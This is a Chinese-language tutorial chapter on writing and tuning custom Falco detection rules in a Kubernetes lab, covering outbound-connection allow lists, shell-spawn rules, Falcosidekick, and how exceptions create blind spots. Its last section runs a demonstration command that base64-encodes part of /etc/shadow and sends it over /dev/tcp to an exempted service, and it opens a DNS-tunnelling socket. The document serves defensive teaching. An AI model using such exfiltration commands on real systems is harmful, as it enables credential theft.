



# Day 4: Falco 自訂規則——補上預設規則的空白，調校誤報並說出例外的代價

{ align=right width="95" }

Day 3 留下兩個空白：從容器連 8.8.8.8，連線成功，預設規則一筆都沒報；容器裡已經在跑的程式再開一個 shell，預設規則也看不到。這一章自己寫兩條規則把它們補上。

規則寫好、也命中了，接下來的問題比較難處理。假設你的規則是「容器只准連允許清單上的位址」，而叢集裡有一顆什麼壞事都沒做的 pod，每 2 秒呼叫一次叢集內的服務。這條規則每分鐘會因為它報 180 筆告警。加上兩條例外，告警就歸零；可是同一個容器如果把 `/etc/shadow` 的內容塞進請求，送到同一個服務，規則一樣不會報。

讀完這一章，遇到一條很吵的自訂規則時，你能找出誤報是從哪裡放大出來的；決定加一條例外之前，你能說出這條例外會讓哪些連線從此不被這條規則看見。

## 開始之前

這一章接著 Day 3 的環境做：Falco 的 helm release `falco`（chart 9.1.0）、`ebpf-lab` namespace 裡的 `baseline-nginx`、Day 3 的 `falco-values.yaml` 與 `falco-alerts.sh` 都要還在。這一章寫的規則只看 `ebpf-lab` 這個 namespace。

## 步驟 1：規則 A，只准連允許清單上的位址

Day 3 的[「從容器連到沒連過的位址，Falco 沒報」](sprint2-day3-falco-basics.md#mine-4)試過：從 `baseline-nginx` 連 8.8.8.8:53，Falco 零告警。預設規則裡跟網路有關的幾條，描述的都是具體的攻擊手法，沒有一條在問「這個容器以前有沒有連過這裡」。Day 2 用 bpftrace 做的手工基線問的正是這件事：把容器平常連的位址記下來，多出一筆沒見過的，就請人判斷。

規則 A 把這份基線寫成 Falco 規則。`baseline-nginx` 唯一的上游是 1.1.1.1，所以允許清單只有這一項：

```bash
cat > custom-rules.yaml <<'EOF'
# --- Rule A: outbound connections to peers outside the allow list ---

# Layer 1: plain data. This list IS the baseline.
- list: ebpf_lab_allowed_peers
  items: [1.1.1.1]

# Layer 2: named condition fragments.
- macro: ebpf_lab_workload
  condition: (k8s.ns.name = "ebpf-lab")

- macro: lab_outbound_connect
  condition: >
    (evt.type = connect
     and (fd.typechar = 4 or fd.typechar = 6)
     and (evt.rawres >= 0 or evt.res = EINPROGRESS))

- macro: connection_to_unlisted_peer
  condition: (lab_outbound_connect and not fd.sip in (ebpf_lab_allowed_peers))

# Layer 3: the rule.
- rule: Unexpected outbound connection from lab workload
  desc: A workload in the lab namespace connected to a peer that is not on the allow list.
  condition: ebpf_lab_workload and container and connection_to_unlisted_peer
  output: >
    Outbound connection to unlisted peer
    (peer=%fd.sip:%fd.sport proto=%fd.l4proto proc=%proc.name cmd=%proc.cmdline
    pod=%k8s.pod.name ns=%k8s.ns.name container=%container.name
    image=%container.image.repository)
  priority: WARNING
  tags: [network, custom, sprint2_day4, mitre_command_and_control, T1071]
EOF
```


Day 3 拆過這三層的形狀，這裡說每一層為什麼要分開：

- **`list` 是最常改的部分。** 應用多一個上游依賴，改的是 `items`，`macro` 與 `rule` 一個字都不用動。把 IP 直接寫進 `condition` 的規則，每次改都要重讀整條布林運算式。
- **`macro` 讓 `condition` 讀起來像一句話。** `ebpf_lab_workload and container and connection_to_unlisted_peer` 這一行說的是要抓什麼；`evt.rawres >= 0 or evt.res = EINPROGRESS`（連線成功，或非阻塞連線正在建立中）這類細節收進 macro 裡。`fd.typechar = 4 or fd.typechar = 6` 是「這個 fd 是 IPv4 或 IPv6 的 socket」，把檔案、pipe 這類 fd 排除掉。
- **`rule` 只剩三件事**：什麼情況、報什麼、多嚴重。

`tags` 裡的 `mitre_command_and_control` 和 `T1071` 是 MITRE ATT&CK 的分類。MITRE ATT&CK 是一份公開的攻擊手法目錄，每種手法有一個編號，T1071 指「透過一般的應用層協定跟外部的控制端通訊」。預設規則也帶這類標籤，告警送到下游之後，可以照手法分類統計。

### 為什麼不直接用預設的 `outbound` macro {#why-not-outbound}

<span id="mine-3"></span>

預設規則檔裡已經有一個叫 `outbound` 的 macro，看名字正好是規則 A 要的東西。先把它展開來看。這一章的指令裡，`<falco-pod>` 要換成任一顆 Falco pod 的名字，從這裡挑一個 `falco-` 開頭的：

```console
$ kubectl -n falco get pods -o wide
```

然後在那顆 pod 裡印出 `outbound`：

```console
$ kubectl -n falco exec <falco-pod> -c falco -- grep -A9 '^- macro: outbound$' /etc/falco/falco_rules.yaml
- macro: outbound
  condition: >
    ((evt.type = connect or …) and
     (fd.typechar = 4 or fd.typechar = 6) and
     (fd.ip != "0.0.0.0" and fd.net != "127.0.0.0/8"
      and not fd.snet in (rfc_1918_addresses)) and        ← 這一行
     (evt.rawres >= 0 or evt.res = EINPROGRESS))
```


標了箭頭的那一行是 `not fd.snet in (rfc_1918_addresses)`：目的地在私有網段（RFC 1918 定義的 10.0.0.0/8、172.16.0.0/12、192.168.0.0/16）就不算 outbound。本課的 AKS 叢集，Pod 位址在 10.244.0.0/16，Service 位址在 10.0.0.0/16，都是私有網段。所以這一行等於把 pod 對 pod、pod 對 Service、pod 對 CoreDNS 的流量全部排除。

預設規則要抓的是容器連到外面的可疑位址，排除內網說得通。規則 A 要抓的是容器連了沒連過的地方，叢集內的服務也包含在內：攻擊者拿下一個容器之後，往叢集內其他服務移動（橫向移動）也是要抓的行為。所以 `lab_outbound_connect` 照著 `outbound` 的寫法自己拼一份，刻意不放那一行。

複用 `outbound` 會怎樣，到步驟 4 量完誤報就看得出來：那些誤報一筆都不會出現，叢集內的連線也一起看不到了。

## 步驟 2：規則 B，抓容器裡的程式再開的 shell

Day 3 的[「容器裡的程式再開 shell，`Terminal shell in container` 不報」](sprint2-day3-falco-basics.md#mine-6)：預設的 `Terminal shell in container` 要求 shell 的父行程是容器執行期（runc、containerd-shim、conmon 這類負責把容器跑起來的程式），所以只抓得到 `kubectl exec` 直接開的那一層 shell。容器裡已經在跑的程式再開 shell，一筆都不報。web shell 就是這種情況：攻擊者把一支程式放進網站，透過 HTTP 請求叫它執行指令，指令由網站程式開的 shell 去跑。

規則 B 用同一組 shell 執行檔，把父行程的條件反過來：父行程**不是**容器執行期才報。`tags` 裡的 `mitre_execution`、`T1059` 一樣是 MITRE ATT&CK 的分類，T1059 指「用命令列直譯器（shell、腳本語言）執行指令」。

```bash
cat >> custom-rules.yaml <<'EOF'

# --- Rule B: the complement of the shipped container_entrypoint condition ---

- list: lab_shell_binaries
  items: [ash, bash, csh, ksh, sh, tcsh, zsh, dash]

- macro: container_runtime_parent
  condition: >
    (proc.pname in (runc:[0:PARENT], runc:[1:CHILD], runc, docker-runc, exe,
                    docker-runc-cur, containerd-shim, systemd, crio, conmon))

- rule: Shell spawned by non-runtime parent in container
  desc: A shell was spawned by a process already running inside the container.
  condition: >
    spawned_process and container
    and k8s.ns.name = "ebpf-lab"
    and proc.name in (lab_shell_binaries)
    and proc.pname exists
    and not container_runtime_parent
  output: >
    Shell spawned by a non-runtime parent
    (shell=%proc.name parent=%proc.pname gparent=%proc.aname[2] tty=%proc.tty
    cmd=%proc.cmdline pod=%k8s.pod.name ns=%k8s.ns.name container=%container.name)
  priority: WARNING
  tags: [shell, custom, sprint2_day4, mitre_execution, T1059]
EOF
```


有兩個地方跟預設規則刻意不同：

- **`condition` 裡沒有 `proc.tty != 0`。** 預設規則有這一項，所以沒有終端機的 shell 它不報（Day 3 的[「用 `kubectl exec -t` 開 shell，Falco 沒報」](sprint2-day3-falco-basics.md#mine-3)）。web shell 沒有終端機，加了這個條件，等於把要抓的對象排除掉。代價是規則 B 也會報沒有終端機的自動化腳本。
- **`proc.pname exists` 不能省。** 父行程可能先退出，這時 `proc.pname` 是空的。`container_entrypoint` 的第一項就是處理這種情況的 `not proc.pname exists`；規則 B 如果不要求父行程存在，父行程為空的事件會落進 `not container_runtime_parent`，被誤判成「父行程不是容器執行期」。

## 步驟 3：把規則交給 Falco，同時打開告警出口

### 先準備接收告警的地方

到目前為止，Falco 的告警只寫在 pod 的標準輸出裡，`falco-alerts.sh` 就是從那裡撈。實際使用時，告警要送到聊天頻道、呼叫器或日誌平台。Falco 官方負責轉送的元件叫 **Falcosidekick**：它接收 Falco 送來的告警，再依設定轉送出去，一份輸入可以同時送到好幾個目的地。

聊天頻道、呼叫器這類目的地都需要 token 或密碼，教材不放憑證，所以這裡的目的地是叢集內一顆自己寫的接收端：一個 python `http.server`，收到 POST 就回 200，並把收到的 JSON 印到自己的標準輸出。先把它建起來，Falcosidekick 一啟動就有地方送，步驟 4 的測試 pod 也會連它：

```bash
cat > webhook-receiver.yaml <<'EOF'
apiVersion: v1
kind: ConfigMap
metadata:
  name: webhook-receiver-src
  namespace: falco
data:
  receiver.py: |
    import json
    from http.server import BaseHTTPRequestHandler, HTTPServer

    class Handler(BaseHTTPRequestHandler):
        def do_POST(self):
            body = self.rfile.read(int(self.headers.get("Content-Length", 0)))
            try:
                print("RECEIVED", json.dumps(json.loads(body)), flush=True)
            except json.JSONDecodeError:
                print("RECEIVED(raw)", body.decode("utf-8", "replace"), flush=True)
            self.send_response(200)
            self.end_headers()

        def do_GET(self):
            self.send_response(200)
            self.end_headers()
            self.wfile.write(b"ok")

        def log_message(self, *args):
            pass

    HTTPServer(("", 8080), Handler).serve_forever()
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: webhook-receiver
  namespace: falco
spec:
  replicas: 1
  selector:
    matchLabels: { app: webhook-receiver }
  template:
    metadata:
      labels: { app: webhook-receiver }
    spec:
      containers:
        - name: receiver
          image: mcr.microsoft.com/mirror/docker/library/python:3.11-slim
          command: ["python3", "-u", "/src/receiver.py"]
          ports:
            - containerPort: 8080
          volumeMounts:
            - { name: src, mountPath: /src }
          resources:
            requests: { cpu: 10m, memory: 32Mi }
      volumes:
        - name: src
          configMap: { name: webhook-receiver-src }
---
apiVersion: v1
kind: Service
metadata:
  name: webhook-receiver
  namespace: falco
spec:
  selector: { app: webhook-receiver }
  ports:
    - port: 8080
      targetPort: 8080
EOF
kubectl apply -f webhook-receiver.yaml
```


### 在 values 裡打開 Falcosidekick

在 Day 3 的 `falco-values.yaml` 後面加上這一段：

```yaml
falcosidekick:
  enabled: true
  webui:
    enabled: false
  resources:
    requests: { cpu: 20m, memory: 32Mi }
    limits:   { cpu: 200m, memory: 128Mi }
  config:
    debug: true
    webhook:
      address: "http://webhook-receiver.falco.svc.cluster.local:8080/"
      minimumpriority: "notice"
```


`falcosidekick.enabled: true` 打開之後，chart 會自動把 Falco 的 `http_output`（Falco 用 HTTP 往外送告警的輸出）指到 sidekick 的 Service，不必另外改 Falco 的設定。Falco 的標準輸出照樣寫，所以 `falco-alerts.sh` 不用改。

另外幾個值：

- `webui.enabled: false`：sidekick 的 Web UI 會另外部署一個 Redis 和一個 UI 服務，用途是在瀏覽器上翻告警列表。這一章沒有步驟用得到，所以關掉，少兩顆 pod。
- `resources`：chart 預設完全沒有給，後果見[疑難排解：sidekick 預設兩份副本、不給 resources](#mine-6)。
- `minimumpriority: "notice"`：只把 notice 以上的告警送到這個 webhook，每個目的地可以各自設門檻。本課的實驗沒有產生低於 notice 的事件，所以門檻有沒有擋下低等級的告警，沒有實際驗證。

### 一次 `helm upgrade` 交出規則和設定

Falco 的 chart 用 `customRules` 接收自訂規則。它是一個 map：key 是檔名，value 是檔案內容。chart 把它做成一個 ConfigMap，掛進 pod 的 `/etc/falco/rules.d/`。規則不要貼進 values 的 YAML 字串裡，用 `--set-file` 從獨立的檔案送：

```bash
helm upgrade falco falcosecurity/falco --version 9.1.0 -n falco \
  -f falco-values.yaml \
  --set-file 'customRules.custom-rules\.yaml'=custom-rules.yaml
```


這樣規則檔是一份獨立的檔案，可以單獨檢查語法、單獨看 diff。檔名裡的點要跳脫（`custom-rules\.yaml`），否則 Helm 會把它當成兩層 key。

這次升級改到了規則的 ConfigMap，Falco 的 DaemonSet 會一個節點接一個節點重啟，每個節點重啟期間有幾十秒沒有監控。之後每次改規則都會這樣，原因見[疑難排解：只改規則內容，整個 DaemonSet 也重啟一遍](#mine-1)。

升級完成後，進 Falco 的 pod 看規則檔：

```console
$ kubectl -n falco exec <falco-pod> -c falco -- ls -la /etc/falco/rules.d/
lrwxrwxrwx  custom-rules.yaml -> ..data/custom-rules.yaml
drwxr-xr-x  ..2026_08_06_11_08_32.3345389208
lrwxrwxrwx  ..data -> ..2026_08_06_11_08_32.3345389208
```


`custom-rules.yaml` 指向 `..data/`，`..data` 再指向一個帶時間戳的目錄。這兩層 symlink 是 ConfigMap 掛成 volume 時的標準結構，更新時 Kubernetes 一次換掉整個目錄，Falco 不會讀到改到一半的檔案。

Falco 從哪些位置讀規則，寫在 `falco.yaml` 的 `rules_files`：

```console
$ kubectl -n falco exec <falco-pod> -c falco -- grep -A4 rules_files /etc/falco/falco.yaml
rules_files:
- /etc/falco/falco_rules.yaml
- /etc/falco/falco_rules.local.yaml
- /etc/falco/rules.d
```


| 位置 | 誰放的 | 說明 |
|---|---|---|
| `falco_rules.yaml` | init 容器在 pod 啟動時下載（規則檔跟容器映像一樣放在 OCI registry 上，用同一套格式發佈） | 預設的 25 條。不要手改，下次拉新版就被蓋掉 |
| `falco_rules.local.yaml` | 傳統上留給人手動編輯的本機覆寫檔 | 這個映像裡沒有這個檔案。`rules_files` 裡不存在的項目，Falco 直接跳過，不報錯 |
| `rules.d/` | chart 的 `customRules` | 這一章的規則在這裡 |

清單由上往下解析，名字重複時，後解析的會蓋過先解析的。規則 A、B 都是新的名字，跟預設規則沒有重名，所以預設的 25 條一條都沒被動到。Day 5 要拿 Tetragon 跟 Falco 對照，預設規則保持原樣，對照才有共同的基準。

### 確認規則真的載入了

`helm upgrade` 成功，只代表 ConfigMap 寫進去了、pod 重建了；helm 不會檢查規則的內容。規則有沒有載入，要看 Falco pod 自己的啟動日誌。每個規則檔會列一行，附上 schema 驗證的結果：

```console
$ kubectl -n falco logs -l app.kubernetes.io/name=falco -c falco | sed -n '/Loading rules from/,/syscall buffer/p'
Loading rules from:
   /etc/falco/falco_rules.yaml | schema validation: ok
   /etc/falco/rules.d/custom-rules.yaml | schema validation: ok      ← 自訂規則在這裡
The chosen syscall buffer dimension is: 8388608 bytes (8 MBs)
```


`custom-rules.yaml` 那一行要在，而且下面直接接 `The chosen syscall buffer dimension`，中間不能夾著 warning 區塊。如果看到 `Ok, with warnings`，規則可能載入了卻永遠不會觸發，見[疑難排解：`evt.dir` 已經淘汰，規則照樣載入成功](#mine-2)。

### 告警現在怎麼走

把這次升級之後的告警路徑畫出來，左邊是三個節點上的 Falco，右邊是接收端：



圖上有兩點跟後面的步驟有關：

1. Falco 是 DaemonSet，每個節點一份。某個節點的 Falco 出問題，只影響那一個節點。
2. Falcosidekick 是 Deployment，所有節點的告警都經過它。sidekick 停了，Falco 照樣偵測、DaemonSet 照樣顯示健康，卻沒有任何告警送得出去。

圖上標的證據 1、2、3，步驟 7 會一一去查。

## 步驟 4：放一顆正常的 pod 進來

規則 A 把「不在清單上的對端」都當成可疑。叢集裡一顆正常的 pod 平常要連的東西，比寫規則時想到的多。先放一顆什麼壞事都沒做的 pod 進去：它解析叢集內的服務名稱、GET 步驟 3 建的接收端、睡 2 秒，一直重複。

這顆 pod 引起的告警就是**誤報**（false positive）：規則報了，但它要抓的事並沒有發生。

```bash
cat > legit-client.yaml <<'EOF'
apiVersion: v1
kind: Pod
metadata:
  name: legit-client
  namespace: ebpf-lab
spec:
  containers:
    - name: client
      image: mcr.microsoft.com/mirror/docker/library/python:3.11-slim
      command: ["python3", "-u", "-c"]
      args:
        - |
          import time, urllib.request
          while True:
              try:
                  urllib.request.urlopen(
                      "http://webhook-receiver.falco.svc.cluster.local:8080/ping").read()
              except Exception as exc:
                  print("request failed:", exc, flush=True)
              time.sleep(2)
      resources:
        requests:
          cpu: 10m
          memory: 32Mi
EOF
kubectl apply -f legit-client.yaml
```


量告警率之前，先準備一支量測腳本。它用每一筆告警自己的時間戳劃出固定長度的窗口，再按規則名稱分組計數。沒有直接用 `kubectl logs --since`，是因為 `--since` 對每顆 pod 各自計算，幾顆 Falco 的窗口會錯開：

```bash
cat > alert-rate.sh <<'EOF'
#!/usr/bin/env bash
# Count Falco alerts inside a fixed window, using each alert's own timestamp.
# kubectl --since is evaluated per pod, so two Falco pods would use skewed windows.
set -euo pipefail
SECS="${1:-120}"
START=$(date -u -v-"${SECS}"S +%Y-%m-%dT%H:%M:%SZ 2>/dev/null \
        || date -u -d "-${SECS} seconds" +%Y-%m-%dT%H:%M:%SZ)
END=$(date -u +%Y-%m-%dT%H:%M:%SZ)
echo "window start $START, ${SECS}s"; echo "window end   $END"
LINES=$(kubectl -n falco logs -l app.kubernetes.io/name=falco -c falco \
          --since="$((SECS + 30))s" --prefix=false 2>/dev/null | grep '"rule"' || true)
IN=$(echo "$LINES" | awk -v s="$START" -v e="$END" \
      'match($0,/"time":"[^"]*"/){t=substr($0,RSTART+8,RLENGTH-9); if(t>=s&&t<=e) print}')
N=$(echo "$IN" | grep -c . || true)
echo "--- $N alert(s) in ${SECS}s = $(echo "scale=1; $N*60/$SECS" | bc) alerts/min"
echo "$IN" | sed -n 's/.*"rule":"\([^"]*\)".*/\1/p' | sort | uniq -c | sort -rn
EOF
chmod +x alert-rate.sh
```


一顆每 2 秒發一次請求的 pod，每分鐘是 30 次請求。量兩分鐘：

```console
$ ./alert-rate.sh 120
window start 2026-08-06T11:10:51Z, 120s
window end   2026-08-06T11:12:51Z
--- 360 alert(s) in 120s = 180.0 alerts/min
   360  Unexpected outbound connection from lab workload
```


每分鐘 180 筆，是請求數的六倍。

### 180 筆從哪裡來 {#where-180-comes-from}

<span id="mine-4"></span>

把這兩分鐘的告警依對端分組，每一列是筆數和（對端 IP、port、協定、行程）：

```console
150  ('10.0.0.10', 53, 'udp', 'python')     ← CoreDNS
 30  ('10.0.47.134', 8080, 'tcp', 'python') ← 目標 Service 的 ClusterIP
```


連到接收端 ClusterIP（Service 在叢集內的虛擬 IP）的 TCP 是 30 筆，一次請求一條，跟預期一樣。多出來的 150 筆都連到 CoreDNS（叢集的 DNS 伺服器，`10.0.0.10`）的 UDP 53，平均每次請求 5 筆。

原因在 Kubernetes 替每個 pod 寫的 `/etc/resolv.conf`。它的格式大致如下（依 Kubernetes 官方文件的格式；本課沒有在 pod 裡實際印出這個檔案，你的 `search` 清單可能多幾個網域，用 `kubectl exec` 進 pod `cat /etc/resolv.conf` 就看得到自己的版本）：

```text
search <ns>.svc.cluster.local svc.cluster.local cluster.local
options ndots:5
```


`search` 是一份網域清單：要查的名字如果不夠「完整」，解析器會先把清單裡的網域依序接在名字後面去查。`ndots:5` 定義了什麼叫不夠完整：名字裡的點少於 5 個。`webhook-receiver.falco.svc.cluster.local` 只有 4 個點，所以解析器先把 search 清單裡的網域逐一接上去查，都查不到，最後才查原本的名字。

照著順序畫出來，由上往下是時間順序：



照著圖由上往下看：應用程式只發了一次請求，解析器卻對 CoreDNS 查了好幾個名字。每查一個名字都會開一個 UDP socket 並呼叫 `connect()`；UDP 的 `connect()` 一樣是 `connect` 系統呼叫，規則 A 看的就是它，所以每一次都算一筆。實測每次請求是 5 次 `connect()`，每一次各對應哪一個名字，本課沒有逐筆拆開確認。

這個倍數由叢集的 DNS 設定決定，跟應用程式怎麼寫無關：同一支程式換一個 namespace、連一個名字長度不同的 Service，倍數就會變。在 Kubernetes 上估計一條網路規則會報多少，要先把 DNS 查詢算進去。

## 步驟 5：在有誤報的環境裡測試命中

legit-client 繼續跑著。現在做 Day 3 那兩個預設規則沒報的動作。

### 規則 A：連 8.8.8.8

```console
$ kubectl -n ebpf-lab exec baseline-nginx -- bash -c 'exec 3<>/dev/tcp/8.8.8.8/53 && echo connect-ok'
connect-ok
```


Falco 對這個動作輸出的告警（節錄）：

```json
{
  "rule": "Unexpected outbound connection from lab workload",
  "priority": "Warning",
  "hostname": "<node-a>",
  "tags": ["T1071","custom","mitre_command_and_control","network","sprint2_day4"],
  "output_fields": {
    "fd.sip": "8.8.8.8", "fd.sport": 53, "fd.l4proto": "tcp",
    "proc.name": "bash",
    "proc.cmdline": "bash -c exec 3<>/dev/tcp/8.8.8.8/53 && echo connect-ok",
    "container.id": "41ae0eb6f163", "container.name": "nginx",
    "k8s.pod.name": "baseline-nginx", "k8s.ns.name": "ebpf-lab"
  }
}
```


這就是 Day 3 零告警的那個動作。Day 2 的手工基線只能告訴你「連線清單多了一個沒見過的位址」；現在它是一筆有名字的 Warning，帶著對端、指令、pod 名稱和 T1071 的分類。

### 規則 B：用 `&` fork 出第二層 shell

驗證規則 B，要讓容器裡的 shell 真的再生一個 shell。Day 3 試過巢狀的 `bash -c '<單一指令>'`，結果會誤導：`-c` 後面只有一個指令時，bash 會直接 exec 那個指令，用它取代自己（implicit exec），內層 shell 換掉了外層，父行程還是容器執行期。要真的 fork 出子行程，得在內層指令後面加 `&`。外面包 `script -q /dev/null` 是為了配到終端機，跟 Day 3 的作法一樣：

```console
$ script -q /dev/null kubectl -n ebpf-lab exec -it baseline-nginx -- \
      bash -c 'bash -c "echo forked-shell-ran" & wait; echo done'
forked-shell-ran
done
```


這一次動作有兩次 `bash` 的 `execve`，兩條規則各報一筆：

| 規則 | `proc.name` | `proc.pname` | `proc.tty` |
|---|---|---|---|
| `Terminal shell in container`（預設） | bash | **containerd-shim** | 34816 |
| `Shell spawned by non-runtime parent in container`（自訂） | bash | **bash** | 34816 |

預設規則抓到第一層，它的父行程是 containerd-shim；規則 B 抓到 fork 出來的第二層，它的父行程是 bash。Day 3 那次「2 次 `execve` 只有 1 筆告警」，現在兩次都有告警了。

### 沒有終端機的 web shell

上面那次包了 `script`，fork 出來的 shell 繼承了終端機，所以 `proc.tty` 是 34816。web shell 是網站程式在背景開的，沒有終端機。把 `script` 和 `-it` 拿掉再做一次。下面的輸出把 `falco-alerts.sh` 撈到的 JSON 整理成一行一筆，只列跟 shell 有關的規則：

```console
$ kubectl -n ebpf-lab exec baseline-nginx -- bash -c 'bash -c "echo webshell-no-tty" & wait; echo done'
webshell-no-tty
done

$ ./falco-alerts.sh --since 15s
Shell spawned by non-runtime parent in container   proc=bash pname=bash tty=0   cmd=bash -c echo webshell-no-tty
--- 預設規則: 0 筆 ---
```


這次預設規則一筆都沒報：第一層沒有終端機，`proc.tty != 0` 不成立；第二層的父行程是 bash，不符合 `container_entrypoint`。腳本化、沒有終端機的入侵，預設的 shell 規則完全看不到。規則 B 報了，而且 `tty=0` 可以用來分辨它跟真人用 `kubectl exec -it` 開的 shell。

同一段時間，規則 A 還在替 legit-client 報誤報：這次測試前後 12 秒內有 36 筆。真正的 web shell 告警只有一筆，夾在這 36 筆中間。這些告警如果全部送進值班頻道，那一筆很容易被漏看。

## 步驟 6：用 `exceptions` 調校，並找出例外放行了什麼

### 寫兩條例外

誤報來自兩個對端：CoreDNS 的 UDP 53，以及接收端 Service 的 TCP 8080。Falco 規則有一個 `exceptions` 欄位，專門寫例外：每條例外有一個名字，`fields` 列出要比對的欄位，`comps` 是比對方式，`values` 是要放行的值。Falco 載入規則時，會把每條例外轉成一段 `and not (...)`，接在 `condition` 後面。

在 `custom-rules.yaml` 裡規則 A（`- rule: Unexpected outbound connection from lab workload`）的最後，`tags` 那一行下面，加上 `exceptions` 這一段。下面的片段省略了規則 A 原本的欄位，只是標出位置：

```yaml
- rule: Unexpected outbound connection from lab workload
  # …condition / output / priority 不變…
  exceptions:
    - name: cluster_dns_resolution
      fields: [fd.sip, fd.sport, fd.l4proto]
      comps: [=, =, =]
      values:
        - ["10.0.0.10", 53, udp]
    - name: known_internal_services
      fields: [fd.sip, fd.sport, fd.l4proto]
      comps: [=, =, =]
      values:
        - ["10.0.47.134", 8080, tcp]
```


`10.0.0.10` 和 `10.0.47.134` 是本課叢集的值，照抄不會有作用，要換成你叢集裡的值：CoreDNS 是 `kube-system` namespace 的 `kube-dns` Service，接收端是 `falco` namespace 的 `webhook-receiver` Service，兩個都用 `kubectl get svc -n <namespace>` 的 `CLUSTER-IP` 欄查。步驟 4 依對端分組的結果裡，也看得到這兩個 IP。

效果跟直接在 `condition` 尾巴接 `and not (fd.sip = "10.0.0.10" and …)` 一樣，差別在日後的維護：

| | 塞進 `condition` | 用 `exceptions` |
|---|---|---|
| **有名字** | 沒有。半年後看到 `and not (fd.sip="10.0.0.10" …)`，沒人知道為什麼加、誰加的 | `name: cluster_dns_resolution` 就說明了理由，稽核時可以逐條問「這條還需要嗎」 |
| **可追加** | 新增一個豁免對端，必須改原檔裡那條布林運算式 | 可以在另一個檔案裡只追加 `values`，原規則檔一個字不動 |
| **好審查** | diff 是「一行超長條件變成另一行更長的條件」 | diff 是「某條具名例外多了一列 values」，一眼看得出放行範圍擴大了多少 |
| **有結構** | 純文字 | `fields`／`comps`／`values` 有固定結構，可以用程式檢查，例如禁止任何例外拿整段 CIDR 當值 |

「可追加」靠的是 Falco 的覆寫語法：在後解析的檔案裡寫一條同名的規則，就能改動先解析的那條。同名規則只寫 `- rule: <同名>` 加完整欄位，會整條取代；只想加一點東西，就在同名規則底下寫 `override`，指定某個欄位要 `append`（接在原本的後面）或 `replace`（取代）。`append` 是直接把文字接在原本的 `condition` 後面，所以要自己寫 `and`，例如 `condition: and not user.name=root`；用在 `exceptions` 上，新的 `values` 會併入既有的例外。想關掉一條規則，就寫同名規則加 `enabled: false`。

所以多個團隊共用一座叢集時，可以由一個團隊維護規則本身，各應用團隊在自己的檔案裡只追加自己的例外值。本課沒有實際跑過追加的寫法；要用的話，照[官方的覆寫說明](https://falco.org/docs/concepts/rules/overriding/)寫，套用後一樣用步驟 3 的啟動日誌確認沒有 warning。

例外也不一定要逐一列 IP：`comps` 可以用 `in`，配合 `fd.snet` 這類欄位一次放行整個網段。這樣寫起來省事，放行的範圍也跟著變大。

改好 `custom-rules.yaml`，重跑步驟 3 的 `helm upgrade` 指令。這次只有規則內容變了，DaemonSet 還是會整個滾動一遍（[疑難排解：只改規則內容，整個 DaemonSet 也重啟一遍](#mine-1)）。

### 調校後的告警率

legit-client 一直在跑，流量跟之前一樣。再量一次：

```console
$ ./alert-rate.sh 120
window start 2026-08-06T11:16:11Z, 120s
window end   2026-08-06T11:18:11Z
--- 0 alert(s) in 120s = 0.0 alerts/min
```


真正的偏離照樣報。重做步驟 5 的動作，對照調校前後：

| | 調校前 | 調校後 |
|---|---|---|
| `legit-client` 正常流量 | **180.0 alerts/min** | **0.0 alerts/min** |
| 連 8.8.8.8:53 | 命中 | **命中** |
| fork 出來的 shell（規則 B） | 命中 | **命中** |

這個 0 是 120 秒窗口的結果，本課沒有做更長時間的觀察。

### 這兩條例外放行了什麼 {#what-exceptions-allow}

<span id="mine-5"></span>

誤報歸零、真正的偏離照樣報，看起來沒有代價。可是例外只比對 IP、port 和協定，不管是誰連的、送了什麼。從 `baseline-nginx` 對這兩個被放行的對端，做兩件帶惡意的事：

```console
$ kubectl -n ebpf-lab exec baseline-nginx -- bash -c '
    exec 3<>/dev/udp/10.0.0.10/53 && echo "dns-tunnel-socket-ok"
    exec 4<>/dev/tcp/10.0.47.134/8080 &&
      printf "GET /?leak=$(head -c 24 /etc/shadow | base64 -w0) HTTP/1.0\r\n\r\n" >&4 &&
      head -1 <&4'
dns-tunnel-socket-ok
HTTP/1.0 200 OK

$ ./falco-alerts.sh --since 20s --rules
--- Unexpected outbound connection from lab workload: 0 筆 ---
```


第一行對 CoreDNS 開一個 UDP socket，這是 DNS tunnelling 的第一步。DNS tunnelling 把資料編碼在查詢的網域名稱裡送出去；CoreDNS 預設會替叢集外的名字往上游查詢，所以這條路可以通到叢集外。第二段把 `/etc/shadow` 的前 24 個位元組做 base64，塞進查詢字串，送給被放行的接收端 Service。最後一行是 `falco-alerts.sh` 撈到的結果，整理成只看規則 A：兩件事都是 0 筆。

